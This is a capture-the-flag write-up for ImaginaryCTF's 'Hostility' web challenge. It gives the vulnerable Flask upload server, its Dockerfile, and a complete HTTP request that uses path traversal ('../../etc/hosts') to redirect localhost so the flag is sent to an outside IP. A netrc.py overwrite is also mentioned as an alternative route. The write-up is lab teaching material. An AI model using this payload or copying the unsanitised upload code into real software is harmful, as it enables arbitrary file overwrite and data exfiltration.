

# Web - Hostility (258) - 55 solves

## Challenge

```python
#!/usr/bin/env python3

from requests import get
from flask import Flask, Response, request
from time import sleep
from threading import Thread
from os import _exit

app = Flask(__name__)

class Restart(Thread):
    def run(self):
        sleep(300)
        _exit(0) # killing the server after 5 minutes, and docker should restart it

Restart().start()

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/docker')
def docker():
    return Response(open("Dockerfile").read(), mimetype='text/plain')

@app.route('/compose')
def compose():
    return Response(open('docker-compose.yml').read(), mimetype='text/plain')

@app.route('/upload', methods=["GET"])
def upload_get():
    return open("upload.html").read()

@app.route('/upload', methods=["POST"])
def upload_post():
    if "file" not in request.files:
        return "No file submitted!"
    file = request.files['file']
    if file.filename == '':
        return "No file submitted!"
    file.save("./uploads/"+file.filename)
    return f"Saved {file.filename}"

@app.route('/flag')
def check():
    flag = open("flag.txt").read()
    get(f"http://localhost:1337/{flag}")
    return "Flag sent to localhost!"

app.run('0.0.0.0', 1337)
```

We also have a Dockerfile that's a bit relevant, basically we can't overwrite the stuff in the `/app` folder, otherwise we can just create a file that's the same name as one of the imports (but that would severely break the challenge, imagine if `flask.py` was created)

```Dockerfile
FROM ubuntu:20.04

RUN apt-get update -y && \
    apt-get install -y python3-pip python3-dev

WORKDIR /app

RUN pip3 install flask Flask-Limiter requests

COPY server.py /app
COPY flag.txt /app
COPY upload.html /app
COPY Dockerfile /app
COPY docker-compose.yml /app

RUN mkdir /app/uploads
RUN chmod -R 555 /app
RUN chmod -R 777 /app/uploads

ENTRYPOINT [ "python3" ]

CMD [ "server.py" ]
```

The key to the solution was observing the call

```py
get(f"http://localhost:1337/{flag}")
```

So we can overwrite the `/etc/hosts` file to make it point to our own ip address such that we can capture the packet. However, there was a bigger problem with how to capture the packet on the specific port 1337. There were a few solutions but all pretty inconvenient

- Having your own public facing webserver that you can listen on
- Set up a vm on one of the cloud providers
- open port 1337 on your router and send it to your own local server

In the end, I just asked a friend to helped me catch the request :)

## Full Solution

```http
POST /upload HTTP/1.1
Host: hostility.chal.imaginaryctf.org
Content-Length: 218
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Origin: https://hostility.chal.imaginaryctf.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUYR96R1SfODQHlO

------WebKitFormBoundaryCUYR96R1SfODQHlO
Content-Disposition: form-data; name="file"; filename="../../etc/hosts"
Content-Type: text/plain

23.96.1.21          localhost
------WebKitFormBoundaryCUYR96R1SfODQHlO--
```

## Flag

```
ictf{man_maybe_running_my_webserver_as_root_wasnt_a_great_idea_hmmmm}
```

## Other solutions

- Can use to overwrite `netrc.py` which gets triggered during the `get` call but its only usable immediately after the restart of the server ( every 5 mins ) assuming that no one else calls `/flag` beforehand


